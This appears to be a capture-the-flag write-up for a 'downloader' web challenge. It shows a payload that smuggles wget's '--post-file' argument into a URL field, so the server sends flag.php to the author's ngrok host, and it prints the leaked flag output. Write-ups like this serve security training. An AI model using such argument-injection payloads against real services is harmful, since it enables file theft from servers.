 # downloader-v1

Description:
```
Don't you find it frustrating when you have uploaded some files on a website but you're are not sure if the download button works? Me neither. But some people did. Is there even demand for such a service?
```

We get access to the following page.

![landing](images/img_00000.png)

I'll start a http server and use ngrok so that the target can access it.

We can then try to get an image from my webserver.

![req](images/img_00001.png)

We can see what commands are being executed. If our input is not sanitized, we can try to add the "--post-file" flag to wget.

```bash
https://578f-81-18-84-129.ngrok-free.app/img.png --post-file='flag.php'
```

Result:
```
Body:
GET ME!
<?php /* DCTF{6789af26f90396678909a99bf46ba3a78b2f1b349fb... */ ?>
```